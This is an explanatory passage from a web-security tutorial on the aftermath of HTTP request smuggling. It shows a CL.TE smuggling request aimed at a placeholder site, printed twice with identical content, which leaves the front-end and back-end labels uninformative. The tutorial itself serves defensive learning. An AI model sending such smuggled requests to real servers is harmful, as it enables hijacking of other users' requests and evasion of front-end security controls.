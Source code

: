 ### Understanding the aftermath of request smuggling
Request smuggling attacks usually involve smuggling a partial request, which the server adds as a prefix to the start of the next request on the connection. It's important to note that the content of the smuggled request influences what happens to the connection following the initial attack.

If you just smuggle a request line with some headers, assuming that another request is sent on the connection shortly afterwards, the back-end ultimately still sees two complete requests. 

If you instead smuggle a request that also contains a body, the next request on the connection will be appended to the body of the smuggled request. This often has the side-effect of truncating the final request based on the apparent Content-Length. As a result, the back-end effectively sees three requests, where the third "request" is just a series of leftover bytes: 

Front-end (CL)
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

Back-end (TE)
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

As these leftover bytes don't form a valid request, this typically results in an error, causing the server to close the connection
